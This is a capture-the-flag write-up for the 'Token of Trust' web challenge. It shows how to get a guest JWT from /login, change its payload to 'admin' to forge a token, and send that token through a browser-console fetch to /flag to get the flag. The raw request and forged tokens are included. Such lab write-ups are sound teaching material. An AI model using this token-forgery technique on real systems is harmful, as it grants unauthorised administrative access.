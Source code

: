 ## Token of Trust

---

### Challenge

At first, this web app seems straightforward, but there’s something more lurking beneath the surface. It relies on a token for user authentication, but not everything is as secure as it seems. Look closely, and you might discover that the system’s trust can be manipulated.

The secret is hidden within the way this token is used. Can you find the key to unlock what’s been concealed? The challenge is waiting for you to crack it.

Submit your answer in the following format: ACECTF{3x4mpl3_fl4g}

[](http://34.131.133.224:9999/)

---

### Solution

As the webpage instructs us, we try to navigate to /login page, only to find that we need to send our requests with JSON payload `{"user":"ace","pass":"ctf"}` (the password is not verified so any random one will work). Also, the request has to be in POST form.

When we check the normal request to the website using [Burpsuit](https://portswigger.net/burp), we see that it is a GET request by default. We change the request to this:

```
POST /login HTTP/1.1
Host: 34.131.133.224:9999
Content-Type: application/json
Content-Length: 33
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/133.0.0.0 Safari/537.36
Accept: application/json
Connection: close

{"user":"ace","pass":"ctf"}
```

Upon forwarding this request, the token is printed on the website `{"token":"eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VyIjoiZ3Vlc3QifQ.JT3l4_NkVbkQuZpl62b9h8NCZ3cTcypEGZ1lULWR47M"}`

Since it is a jwt token, we can check the payload and algorithm using [jwt.io](https://jwt.io/). Using the jwt decoder, we get the payload and algorithm.

![jwt token](https://github.com/user-attachments/assets/0f1bb454-74cb-4df5-9c5a-ec1dfb8aaee5)

Since we find that the user is specified as `guest`, instead of `ace` (our input), we can modify the user to `admin` and craft a new token using the jwt encoder like this one:

admin token: `eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VyIjoiYWRtaW4ifQ.lo6cc_YVMrNFnffGek_avzLJ_mgkuvBsSz52NO3_6Kk`

Now that we have our token, we can pass it to the website using console. For that, we allow pasting in console and pass the following command:

```
fetch("http://34.131.133.224:9999/flag", {
    method: "POST",
    headers: {
        "Content-Type": "application/json"
    },
    body: JSON.stringify({ token: "eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VyIjoiYWRtaW4ifQ.lo6cc_YVMrNFnffGek_avzLJ_mgkuvBsSz52NO3_6Kk" })
}).then(response => response.text())
  .then(console.log);
```

This prints the flag in the console

---

### Flag

```
ACECTF{jwt_cr4ck3d_4dm1n_4cce55_0bt41n3d!}
